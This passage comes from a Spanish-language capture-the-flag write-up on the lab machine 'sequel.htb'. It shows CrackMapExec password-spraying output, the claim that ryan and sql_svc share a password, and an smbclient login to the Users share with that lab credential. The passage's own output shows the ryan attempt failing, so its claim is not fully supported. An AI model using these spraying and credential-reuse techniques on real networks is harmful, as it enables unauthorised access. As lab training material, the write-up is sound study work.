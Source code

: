 ```bash
SMB         10.10.11.51     445    DC01             [-] sequel.htb\ryan: STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\angela:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\angela:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\angela:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\angela: STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\oscar:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\oscar:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\oscar:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\oscar: STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [+] sequel.htb\: 
```

#### Hallazgo de Credenciales Comunes entre `ryan` y `sql_svc`

En la salida del ataque realizado con **CrackMapExec (CME)**, hemos encontrado que tanto el usuario **`ryan`** como el usuario **`sql_svc`** tienen la misma contraseña válida, que es **`WqSZAF6CysDQbGb3`**. Este hallazgo tiene implicaciones importantes para el análisis de seguridad y nos lleva a varias conclusiones y pasos a seguir.

###### Conexión SMB con el usuario "ryan" para acceder a "Users"

En este paso, intentamos acceder al recurso compartido de archivos en el servidor SMB utilizando las credenciales obtenidas previamente para el usuario "ryan". Utilizando el comando `smbclient`, establecimos una conexión con el recurso compartido `\\10.10.11.51\Users`, proporcionando la contraseña correspondiente.

`smbclient //10.10.11.51/Users -U ryan --password=WqSZAF6CysDQbGb3`

```bash
(kali㉿kali)-[~]
└─$ smbclient //10.10.11.51/Users -U ryan --password=WqSZAF6CysDQbGb3
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sun Jun  9 09:42:11 2024
  ..                                 DR        0  Sun Jun  9 09:42:11 2024
  Default                           DHR        0  Sun Jun  9 07:17:29 2024
  desktop.ini                       AHS      174  Sat Sep 15 03:16:48 2018
  ryan                                D        0  Mon Apr 28 23:22:09 2025

                6367231 blocks of size 4096. 782413 blocks available
smb: \> 

```
